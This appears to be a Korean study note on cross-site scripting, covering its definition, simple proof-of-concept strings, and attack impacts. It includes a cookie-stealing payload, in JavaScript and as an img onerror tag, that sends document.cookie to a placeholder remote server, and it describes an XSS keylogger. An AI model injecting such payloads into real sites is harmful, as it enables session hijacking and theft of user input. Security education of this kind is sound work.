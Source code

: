 ```yaml
---
title: "XSS 총 정리"
excerpt: "XSS에 대하여 정리해보자."
tags:
    - XSS
    - 웹 해킹
    - javascript
    - html
last_modified_at: 2023-05-20T09:13:00-05:00
---
```

## XSS ( Cross-Site Scripting ) 란
- 클라이언트 측 스크립트를 삽입하는 공격이다.
-  웹 애플리케이션에서 발생하는 취약점이다.
- 클라이언트 만이 피해를 입는다. 즉 서버에는 아무런 악영향을 안 끼친다.
- 클라이언트의 브라우저에서 개발자가 의도하지 않았던 스크립트가 실행된다.
- 취약한 웹 애플리케이션을 이용하는 사용자가 주 타겟이 된다.
- 사용자 쿠키를 탈취하는 세션 하이재킹( session hijacking ) 공격을 수행할 수 있다.

## 클라이언트 측 코드
- html
- javascript
- css

## POC 코드
- 웹 애플리케이션 XSS 취약점을 이용한 공격이 가능함을 확인할 수 있다.

### 자주 이용하는 POC 코드
- `alert(1)`
- `console.log(1)`

## 공격 피해

### 사용자 쿠키 탈취
- document.cookie 를 활용하여 사용자 쿠키 값을 훔친다.
- 사용자 브라우저의 쿠키에 저장된 합법적인 **Session ID 값**이나 **액세스 토큰 값**을 훔쳐 원격지 서버로 전송한다.

```js
var hackUrl = "원격지 서버?value=";
new Image().src = hackURL + document.cookie;
```

```html
<img src=x onerror='var hackUrl = "원격지 서버?value=";new Image().src = hackURL + document.cookie;'>
```


### 사용자 개인정보 탈취
- Key Logger 방식으로 사용자 입력을 탈취한다.
- XSS Keylog 가 삽입된 페이지에 사용자가 접근하면 Keyboard Event 를 통해 입력 값을 후킹한다.
- 후킹한 값을 원격지 서버로 전송한다.
